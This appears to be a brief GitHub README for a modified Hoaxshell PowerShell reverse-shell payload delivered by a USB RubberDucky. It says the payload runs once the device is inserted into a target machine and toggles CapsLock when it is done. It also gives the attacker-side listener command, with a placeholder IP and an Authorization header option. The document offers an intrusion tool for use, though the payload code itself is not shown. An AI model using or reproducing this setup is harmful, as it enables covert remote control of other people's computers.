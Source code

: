 Modified Hoaxshell for the usb RubberDucky:
-------------------------------------------

Powershell reverse shell with Authorization ID using Hoaxshell,after we insert the USB RubberDucky wait a few seconds for the payload to load and when its done the Capslook turns ON/OFF on target

on the attacker machine use the -g to remember the Authorization id
./hoaxshell.py -s X.X.X.X -r -g -H "Authorization"


*Credits for the original payload goes to t3l3machus/hoaxshell*
https://github.com/t3l3machus/hoaxshell

